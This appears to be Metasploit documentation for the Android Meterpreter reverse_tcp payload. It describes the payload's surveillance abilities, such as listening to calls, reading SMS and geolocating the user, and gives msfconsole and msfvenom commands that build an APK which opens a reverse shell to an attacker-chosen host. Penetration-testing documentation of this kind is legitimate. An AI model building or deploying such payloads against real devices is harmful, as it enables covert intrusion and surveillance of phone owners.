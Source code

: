 The `android/meterpreter/reverse_tcp` payload is a Java-based Meterpreter
that can be used on an Android device. It is still at an early stage of
development, but there are so many things you can do with it already.

The Android Meterpreter allows you to do things like take remote control
the file system, listen to phone calls, retrieve or send SMS messages,
geo-locate the user, run post-exploitation modules, etc.

## Vulnerable Application

You can test `android/meterpreter/reverse_tcp` on these devices:

**Android Emulator**

An emulator is the most convenient way to test Android Meterpreter. You
can try:

* [Android SDK][sdk] - Creates and manages your emulators from a command
  prompt or terminal.
* [Android Studio][studio] - Allows you to manage emulators more easily
  than the SDK.
* [GenyMotion][genymotion] - Requires an account.
* [AndroidAVDRepo][avd] - Contains a collection of pre-configured
  emulators.


**A real Android device**

Having a real Android device allows you to test features or
vulnerabilities you don't necessarily have from an emulator, which might
be specific to a manufacturer, carrier, or hardware. You also get to
test it over a real network.


## Verification Steps

Currently, the most common way to use Android Meterpreter is to create
it as an APK, and then execute it.

To create the APK with msfconsole:

```
msf > use payload/android/meterpreter/reverse_tcp
msf payload(reverse_tcp) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf payload(reverse_tcp) > generate -t raw -f /tmp/android.apk
[*] Writing 8992 bytes to /tmp/android.apk...
msf payload(reverse_tcp) >
```

To create the APK with msfvenom:

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

Next, start an Android device. Upload the APK, and execute it. There are
different ways to do this, so please refer to the Scenarios section for
more information.


[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo